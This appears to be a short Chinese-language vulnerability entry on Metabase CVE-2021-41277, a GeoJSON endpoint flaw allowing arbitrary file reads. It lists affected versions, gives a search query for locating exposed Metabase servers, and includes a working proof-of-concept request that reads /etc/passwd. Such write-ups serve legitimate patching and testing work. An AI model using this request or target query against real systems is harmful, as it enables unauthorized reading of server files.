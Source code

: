 # 

# Metabase geojson 任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息

## 漏洞影响

```
metabase version < 0.40.5
metabase version >= 1.0.0, < 1.40.5
```

## 网络测绘

```
app="metabase"
```

## 漏洞复现

登录页面

![image-20220524152541900](./images/202205241525945.png)

验证POC

```
/api/geojson?url=file:/etc/passwd
```

![image-20220524152721994](./images/202205241527087.png)
